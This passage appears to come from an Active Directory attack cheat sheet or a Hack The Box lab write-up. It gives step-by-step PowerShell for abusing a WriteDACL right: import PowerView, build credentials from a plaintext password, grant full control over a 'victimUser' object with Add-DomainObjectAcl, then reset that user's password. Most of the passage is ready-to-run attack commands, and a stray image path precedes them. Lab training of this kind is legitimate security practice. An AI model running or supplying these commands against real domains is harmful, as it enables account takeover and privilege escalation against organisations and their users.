 #### **2. Users: Gain Full Control Over a User**

**Scenario:**  
You have `WriteDACL` over a user. Use it to grant full control of the user object.

**Steps:**

1. **Import PowerView**  
   ```powershell
   import-module .\powerview.ps1
   ```

2. **Set Up Credentials**  
   ```powershell
   $pass = convertto-securestring 'abc123!' -asplain -force
   $cred = new-object system.management.automation.pscredential('htb\MG', $pass)
   ```

3. **Modify DACL to Grant Full Control**  
   Grant full control over the target user (e.g., `victimUser`):
   ```powershell
   Add-DomainObjectAcl -TargetIdentity victimUser -Rights All -PrincipalIdentity MG -Credential $cred
   ```
   - **Why:** This allows you to modify any attribute or permissions of the target user.

4. **Reset the User’s Password**  
   After gaining control, reset the user’s password:
   ```powershell
   Set-ADAccountPassword -Identity victimUser -Reset -NewPassword (ConvertTo-SecureString "NewPass123!" -AsPlainText -Force)
   ```
